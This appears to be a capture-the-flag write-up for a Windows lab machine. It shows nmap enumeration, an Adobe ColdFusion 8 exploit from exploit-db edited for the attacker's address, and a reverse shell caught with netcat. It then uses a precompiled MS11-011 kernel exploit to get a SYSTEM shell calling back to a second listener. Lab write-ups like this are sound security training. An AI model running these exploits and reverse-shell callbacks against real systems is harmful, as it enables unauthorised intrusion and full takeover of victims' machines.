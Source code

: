 # IP Address: 10.10.10.11

# Enumeration
```
┌──(code㉿kali)-[~]
└─$ nmapAutomator.sh -H 10.10.10.11 -t all

PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

### 8500/tcp
We find a directory listing at http://10.10.10.11:8500/. At /administrator, we see an Adobe ColdFusion 8 login form. Searching for exploits, we find https://www.exploit-db.com/exploits/50057

This exploit generates and sends a payload with a pause timer, sets up a netcat listener and catches a reverse shell. We only need to change the local host bits. It must have been created for this particular CTF since the target IP address and port match up perfectly!

Original:
```
┌──(code㉿kali)-[~]
└─$ grep "Define some" 50057.py -A 5
    # Define some information
    lhost = '10.10.16.4'
    lport = 4444
    rhost = "10.10.10.11"
    rport = 8500

```

Edited:
```
┌──(code㉿kali)-[~]
└─$ grep "Define some" 50057.py -A 5
    # Define some information
    lhost = '10.10.14.17'		# EDIT
    lport = 4444
    rhost = "10.10.10.11"
    rport = 8500
```

# Exploitation

Result:
```
└─$ python3 50057.py                                                                                

Generating a payload...
Payload size: 1497 bytes
Saved as: 7312ae0e03bd4ca3aaeb2547d08c3233.jsp

Priting request...
Content-type: multipart/form-data; boundary=583d326497004a288f345c597fe27c71
Content-length: 1698

...

Deleting the payload...

Listening for connection...

Executing the payload...
listening on [any] 4444 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.11] 49803

Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis

C:\ColdFusion8\runtime\bin>

```

user.txt

![[Pasted image 20211122202119.png]]


# Privilege Escalation
Copy the output of `systeminfo` to local file and run against it windows-exploit-suggester.
Find pre-compiled exploit MS11-011.exe from https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS11-011

Copy the exploit to target using certutil and run, specifying the local netcat listener:
```
C:\ColdFusion8\runtime\bin>exploit2.exe 10.10.14.17 4499
exploit2.exe 10.10.14.17 4499
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Changing registry values...<BR>/Chimichurri/-->Got SYSTEM token...<BR>/Chimichurri/-->Running reverse shell...<BR>/Chimichurri/-->Restoring default registry values...<BR>
C:\ColdFusion8\runtime\bin>

```


Listener:
```
┌──(code㉿kali)-[~/tools/windows-kernel-exploits]
└─$ nc -nlvp 4499                                                                                   
listening on [any] 4499 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.11] 50044
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
whoami
nt authority\system
```

# Proof
root.txt

![[Pasted image 20211122211625.png]]